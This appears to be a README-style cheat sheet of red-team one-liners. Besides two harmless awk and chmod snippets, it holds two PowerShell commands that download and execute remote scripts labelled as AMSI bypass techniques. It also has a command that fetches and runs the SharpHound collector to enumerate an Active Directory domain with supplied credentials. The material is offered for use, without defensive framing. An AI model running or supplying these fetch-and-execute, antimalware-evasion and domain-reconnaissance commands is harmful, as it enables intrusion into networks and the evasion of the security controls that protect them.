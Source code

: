 # Add text to line
~~~
awk  '{print "http://" $1}' urls.txt
~~~
# Change permissions of folder (Linux)
~~~
sudo chmod +x $(find /PATH/)
~~~
# Stage One (AMSI Techniques)
~~~
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/HeeresS/Small-Code/main/StageOne.ps1'); Invoke-StageOne
~~~
# Stage Two (AMSI .NET Techniques)
~~~
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/HeeresS/Small-Code/main/StageTwo.ps1')
~~~
# BloodHound ingestor trough PowerShell
~~~
IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1');Invoke-BloodHound -LdapUsername "Username" -LdapPassword "Password" -Domain "Domain" -DomainController DC-ip -CollectionMethods All -OutputDirectory "C:\TEMP\"
~~~~

